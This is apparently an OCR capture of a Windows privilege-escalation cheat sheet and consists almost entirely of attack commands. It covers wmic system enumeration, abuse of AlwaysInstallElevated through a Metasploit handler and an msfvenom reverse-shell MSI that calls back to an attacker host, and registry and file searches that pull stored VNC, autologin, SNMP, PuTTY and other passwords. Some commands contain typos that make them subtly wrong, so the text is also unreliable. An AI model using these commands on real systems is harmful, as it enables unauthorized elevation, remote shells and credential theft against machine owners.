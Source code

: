 ```

wmic os list /format

wmic server

wmic startup

wmic qfe list /format
```

## AlwaysInstallElevated
```
#Check if AlwaysInstalledElevated is installed (1) or not (0)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

# Metasploit Module, Automatic Process
use exploit/windows/local/always_install_elevated

# Manual Process to Get Elevated Privilege
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f msi > escalate.msi
```

## Searching For Credentials
```
dir unattend.* /s

dir sysprep.* /s

findstr /si "password" *.txt *.ini

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

#SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#Search for password in registry
reg query HKLM /f password /t REG_SG /s
reg query HKCU /f password /t REG_SZ /s
```
